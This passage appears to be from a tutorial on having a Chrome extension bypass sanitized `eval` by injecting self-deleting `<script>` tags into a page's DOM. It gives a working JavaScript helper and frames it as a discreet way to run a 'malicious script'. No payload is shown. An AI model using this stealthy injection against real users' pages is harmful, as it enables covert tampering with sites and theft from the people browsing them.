 This needs to be recorded as a string, to avoid escaping everything, use [raw string literals](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/raw).

```js
//  ES6 black magic
String.raw`console.log('no',"need",`to`,'escape',"anything")`;
```

### Step 1: Wrap the exploit as a browser event

**Environment:** Background Script (Chrome Extension)

We can circumvent using `eval`, which is sanitized, by creating `<script>` tags in the DOM itself. To make our exploit even more discrete, we're going to wrap the malicious script with code that creates a self-executing function that deletes itself once it runs. Crafty.

Save this function as another raw string:

```js
function RAW_DOM_INJECTION(script = {}) {
  return new Promise((resolve, reject) => {
    try {
      /* EXECUTION ENVIRONMENT: RAW DOM -> CONTENT SCRIPT */
      window.addEventListener(
        script.id,
        (e) => {
          /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> BACKGROUND (EXTENSION) */
          const { detail } = e
          resolve(detail)
        },
        { once: true }
      )
      /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> RAW DOM */
      const element = document.createElement('script')
      element.textContent =
        '(async function () {' +
        'const execution = () => new Promise((RETURN, ERROR) => { ' +
        script.code +
        ' });' +
        'let response = await execution();' +
        'var event = document.createEvent("CustomEvent");' +
        'event.initCustomEvent("' +
        script.id +
        '", true, true, response);' +
        'window.dispatchEvent(event);' +
        '})();'
      /* EXECUTION ENVIRONMENT: CONTENT SCRIPT -> RAW DOM */
      ;(document.head || document.documentElement).appendChild(element)
      element.parentNode.removeChild(element)
    } catch (ERROR) {
      console.error(ERROR)
      resolve({ ERROR })
    }
  })
}
```
